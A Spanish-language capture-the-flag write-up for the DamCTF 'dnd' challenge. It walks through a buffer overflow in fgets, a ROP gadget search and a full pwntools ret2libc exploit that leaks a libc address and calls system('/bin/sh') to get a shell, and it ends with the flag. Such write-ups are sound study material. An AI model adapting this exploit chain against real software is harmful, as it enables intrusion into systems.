 # dnd

`patchelf --set-interpreter ./ld-linux-x86-64.so.2 --replace-needed libc.so.6 ./libc.so.6 dnd && chmod u+x dnd libc.so.6 ld-linux-x86-64.so.2`

```
checksec --file=dnd
[*] '/home/kalcast/Descargas/Pwn/dnd/dnd'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

El binario no tiene PIE ni canary (direcciones fijas y posible buffer overflow)

Si obtenemos puntos negativos "ganamos" el juego y entonces podemos introducir nuestro nombre. Se usa la funcion `fgets` para leer 0x100 bytes en un buffer de 32 asi que claramente hay un buffer overflow
```
var int64_t var_40h @ rbp-0x40
var char * s @ rbp-0x60             <--- se almacena aqui (0x60-0x40=0x20=32 bytes)
...
|           0x004028a5      488b15d458..   mov rdx, qword [obj.stdin]  ; loc.__bss_start
|                                                                      ; [0x408180:8]=0 ; FILE *stream
|           0x004028ac      488d45a0       lea rax, [s]
|           0x004028b0      be00010000     mov esi, 0x100              ; 256 ; int size
|           0x004028b5      4889c7         mov rdi, rax                ; char *s
|           0x004028b8      e813fcffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
```

El offset es de 0x60 + 8(RBP almacenado) = 104 bytes

Primero hacemos un leak de una direccion de libc. Las direcciones de libc se almacenan en la GOT, usamos por ejemplo `got.puts` y se lo pasamos de argumento a `plt.puts`, entonces puts imprimira su propia direccion y asi podremos calcular la direccion base de libc.

Para esto necesitamos un gadget. Un `pop rdi;ret` seria lo ideal pero lo mejor que pude obtener fueron estos:
```
ROPgadget --binar dnd | grep rdi
0x000000000040263d : in eax, 0x6a ; pop rdi ; nop ; pop rbp ; ret
0x0000000000403504 : mov ebp, esp ; mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x000000000040263c : mov ebp, esp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x00000000004041d1 : mov qword ptr [rbp - 8], rdi ; mov qword ptr [rbp - 0x10], rsi ; jmp 0x4041f4
0x0000000000403c44 : mov qword ptr [rbp - 8], rdi ; mov rax, qword ptr [rbp - 8] ; pop rbp ; ret
0x0000000000403506 : mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x0000000000403503 : mov rbp, rsp ; mov qword ptr [rbp - 8], rdi ; nop ; pop rbp ; ret
0x000000000040263b : mov rbp, rsp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x0000000000404467 : movsd dword ptr [rdi], dword ptr [rsi] ; loopne 0x404469 ; dec dword ptr [rax - 0x75] ; pop rbp ; clc ; leave ; ret
0x00000000004025a6 : or dword ptr [rdi + 0x408158], edi ; jmp rax
0x000000000040200c : pop rdi ; add byte ptr [rax], al ; test rax, rax ; je 0x402016 ; call rax
0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
0x000000000040263e : push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x000000000040263a : push rbp ; mov rbp, rsp ; push 0x42 ; pop rdi ; nop ; pop rbp ; ret
0x0000000000402e9e : sar byte ptr [rdi + 7], 0xb8 ; add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x402ead
0x00000000004044ad : stosb byte ptr [rdi], al ; add byte ptr [rax], al ; add cl, cl ; ret
```

Con la direccion base de libc conocida retornamos a main, "jugamos" y obtenemos la entrada vulnerable de nuevo, usamos nuestro gadget otra vez pero esta vez el parametro es `/bin/sh` y llamaremos a `system` para invocar una shell interactiva.

Exploit
```python
from pwn import *
#io = process("./dnd")
io = remote("dnd.chals.damctf.xyz",30813)
elf = context.binary = ELF("./dnd")
libc = context.binary = ELF("./libc.so.6")

# Negative points to get input
def play_game():
    io.recvuntil(b"Do you want to [a]ttack or [r]un? ")
    io.sendline(b"a")
    io.recvuntil(b"Points: ")
    points = int(io.recvuntil(b"|").decode()[:-2])
    if points < 0:
        for _ in range(4):
            io.recv()
            io.sendline(b"r")
    else:
        print("Fail!")
        exit(1)


# === ret2libc ===
# 1. leak libc.puts
play_game()
# 0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
pop_rdi_addr = 0x402640
payload = flat (
         cyclic(104),
         p64(pop_rdi_addr),
         elf.got.puts,
         b"A"*8,
         elf.plt.puts,
         p64(0x0040286d) # win__ address
#         elf.sym.main,
        )
io.sendlineafter(b"fierce warrior?",payload)
io.recvline()

# 2. Get libc base address
leak = io.recvline().strip()
puts_libc = u64(leak.ljust(8, b"\x00"))
log.success(f"puts@libc: {hex(puts_libc)}")
libc.address = puts_libc - libc.sym.puts

# 3. Call system("/bin/sh")
sh = next(libc.search(b"/bin/sh\x00"))
ret_addr = pop_rdi_addr + 3
payload = flat (
         cyclic(104),
         p64(ret_addr),       # stack alignment
         p64(pop_rdi_addr),
         sh,
         b"A"*8,
         libc.sym['system'],
#         p64(0),              # stack alignment
        )
io.sendlineafter(b"fierce warrior?", payload)
io.interactive()
```

`dam{w0w_th0s3_sc4ry_m0nster5_are_w3ak}`
